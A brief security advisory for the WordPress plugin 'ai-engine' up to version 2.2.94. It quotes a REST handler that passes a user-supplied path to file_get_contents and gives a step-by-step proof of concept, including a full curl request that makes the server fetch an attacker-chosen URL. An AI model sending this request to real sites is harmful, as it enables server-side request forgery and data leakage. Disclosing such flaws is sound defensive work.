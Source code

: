 ### Ai-engine

- **Application**: ai-engine <= 2.2.94

- **Threat Impact**: Sensitive data leakage

- **Code**:

  File: `classes/api.php`

  ```
  public function rest_simpleVisionQuery( $request ) {
    $params = $request->get_params();
    $path = isset( $params['path'] ) ? $params['path'] : '';
    ...
    file_get_contents($path);
  }
  ```

- **POC**:

  1. Login to get nonce and cookie
  1. Listen on localhost 8888
  1. `curl -b .cookies --data '{"message": "test", "path": "http://localhost:8888"}' -X POST "http://site/wp-json/mwai/v1/simpleVisionQuery" -H "X-WP-NONCE:nonce" -H "Content-Type: application/json"`
  1. Get request on localhost



